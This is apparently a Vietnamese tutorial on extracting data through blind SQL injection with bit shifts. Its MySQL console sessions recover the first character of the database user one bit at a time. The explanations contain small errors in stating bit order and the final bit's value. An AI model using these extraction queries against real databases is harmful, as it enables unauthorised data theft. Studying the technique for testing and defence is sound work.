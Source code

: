 # Kỹ thuật khai thác blind sử dụng dịch bit

## Ý tưởng

Mỗi một ký tự đều được quy đổi sang mã ASCII. Và nó được biểu diễn bằng 7 bits. Như vậy thay vì chúng ta phải thử lần lượt các ký tự trong bảng mã ASCII (có gần 100 ký tự có thể nhìn thấy được). Như vậy chúng ta có thể thử đến gần 100 lần để lấy ra được 1 ký tự. Nhưng với cách dịch bit với mỗi ký tự ta chỉ cần 7 lần thử. Sử dụng kỹ thuật này cho phép lấy ra từng bit của ký tự. 

## Ví dụ

Với ký tự `r` chuyển sang mã ASCII sẽ là `114` và chuyển sang bit sẽ là `1110010`

```
mysql> select (ascii((substr(user(),1,1))) >> 6)=1;
+--------------------------------------+
| (ascii((substr(user(),1,1))) >> 6)=1 |
+--------------------------------------+
|                                    1 |
+--------------------------------------+
1 row in set (0.00 sec)
```

Ở đây ta sẽ xác định lần lượt các bit từ phải sang trái. Ta giảm số `6` ở câu query dần về đến `0` để để lần lượt xác định các bit. Ta thực hiện so sánh nếu đúng sẽ trả lại cho ta giá trị là `1` còn sai thì kết quả trả về sẽ là `0`. Như kết quả trên bit đầu tiên tính từ phải sang sẽ là `1`.

1xxxxxx

Xác định bit tiếp theo thì kết quả có thể là 

10 = 2 hoặc 11 = 3

```
mysql> select (ascii((substr(user(),1,1))) >> 5)=2;
+--------------------------------------+
| (ascii((substr(user(),1,1))) >> 5)=2 |
+--------------------------------------+
|                                    0 |
+--------------------------------------+
1 row in set (0.00 sec)
```

Ta thấy ở đây là sai nên bit thứ 2 xác định được sẽ là 1

11xxxxx

Xác định kết quả tiếp theo trả về có thể là

110 = 6 hoặc 111 = 7

```
mysql> select (ascii((substr(user(),1,1))) >> 4)=6;
+--------------------------------------+
| (ascii((substr(user(),1,1))) >> 4)=6 |
+--------------------------------------+
|                                    0 |
+--------------------------------------+
1 row in set (0.00 sec)
```

Kết quả là sai nên bit thứ 3 là 1

111xxxx

Xác định kết quả trả về tiếp theo có thể

1110 = 14 hoặc 1111 = 15

```
mysql> select (ascii((substr(user(),1,1))) >> 3)=14;
+---------------------------------------+
| (ascii((substr(user(),1,1))) >> 3)=14 |
+---------------------------------------+
|                                     1 |
+---------------------------------------+
1 row in set (0.00 sec)
```

Kết quả là đúng nên bit thứ 4 là 0

1110xxx

Xác định kết quả trả về tiếp theo là

11100 = 28 hoặc 11101 = 29

```
mysql> select (ascii((substr(user(),1,1))) >> 2)=28;
+---------------------------------------+
| (ascii((substr(user(),1,1))) >> 2)=28 |
+---------------------------------------+
|                                     1 |
+---------------------------------------+
1 row in set (0.00 sec)
```

Kết quả đúng nên bit thứ 5 là 0

11100xx

Kết quả tiếp theo là 

111000 = 56 hoặc 111001 = 57

```
mysql> select (ascii((substr(user(),1,1))) >> 1)=56;
+---------------------------------------+
| (ascii((substr(user(),1,1))) >> 1)=56 |
+---------------------------------------+
|                                     0 |
+---------------------------------------+
1 row in set (0.00 sec)
```

Kết quả sai nên bit thứ 6 là 1

111001x

Kết quả tiếp theo là 

1110010 = 114 hoặc 1110011 = 115

```
mysql> select (ascii((substr(user(),1,1))) >> 0)=114;
+----------------------------------------+
| (ascii((substr(user(),1,1))) >> 0)=114 |
+----------------------------------------+
|                                      1 |
+----------------------------------------+
1 row in set (0.00 sec)
```

Kết quả đúng nên bit cuối là 1

Như vậy ký tự đầu tiên của user có giá trị bit là `1110010`. Từ đây ta xác định được đây là ký tự `r`

```
mysql> select b'1110010';
+------------+
| b'1110010' |
+------------+
| r          |
+------------+
1 row in set (0.00 sec)
```

Tương tự ta xác đinh các ký tự tiếp theo